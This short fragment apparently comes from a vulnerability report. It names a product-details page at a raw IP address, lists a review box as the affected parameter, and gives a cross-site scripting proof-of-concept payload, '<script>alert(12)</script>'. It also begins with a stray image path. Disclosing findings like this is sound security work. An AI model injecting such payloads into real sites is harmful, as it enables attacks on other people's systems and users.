

# Other parameters with similar issues.
RELEVANT URL:
http://13.127.120.228/products/details.php?p_id=29
AFFECTED PARAMETERS:
Review box
PAYLOAD:
<script>alert(12)</script>